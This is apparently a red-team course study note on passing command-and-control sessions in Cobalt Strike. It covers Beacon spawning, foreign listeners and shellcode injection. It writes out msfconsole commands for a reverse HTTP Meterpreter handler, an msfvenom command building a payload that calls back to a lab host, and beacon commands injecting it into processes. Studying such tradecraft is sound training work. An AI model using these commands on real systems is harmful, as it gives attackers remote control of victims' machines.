 # Session Passing

Session passing spawns a new C2 session from one payload/listener type to another e.g., a long-haul DNS beacon can spawn a short-haul HTTP beacon. Can also pass sessions between different C2 frameworks, such as spawning a Meterpreter session from a CS beacon. Good to:

* Use a capability within a framework that Cobalt Strike doesn't have
* Backup access in the event the current access is lost
* Emulate specific TTPs

## Beacon Passing

```spawn x64 http``` spawns a process and injects shellcode for the specified listener into it. For example, a DNS Beacon checking in from bfarmer every 1 minute left open as a lifeline on a slow check-in and a new HTTP session that checks in more frequently can be spawned and work done from there instead.

## Foreign Listener

Stages Meterpreter HTTP/HTTPS implants from Beacon or any implant that supports the MSF staging protocol. Only supports x86 staged payloads. Start msfconsole and create a new reverse HTTP Meterpreter listener:

    attacker@ubuntu ~> sudo msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf6 exploit(multi/handler) > set LHOST ens5
    msf6 exploit(multi/handler) > set LPORT 8080    /// Don't use a port CS is listening on
    msf6 exploit(multi/handler) > run

CS: Listener Management > create a new Foreign HTTP listener.  Enter the stager host and port from the MSF handler. The listener is available within all the relevant Beacon commands such as spawn, jump, and elevate (e.g. ```spawn msf``` will spawn a process and inject Meterpreter shellcode into it, giving a Meterpreter session).

## Spawn & Inject

shinject (existing proc) and shspawn (new proc) allow injection of arbitrary shellcode blobs. 

1: Change the multi handler to use a stageless x64 Meterpreter payload:

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
    msf6 exploit(multi/handler) > exploit

2: Generate the associated payload using msfvenom inside WSL, and save the output to Payloads directory:

    ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin

3: spawn a process and inject it:

    beacon> shspawn x64 C:\Payloads\msf_http_x64.bin

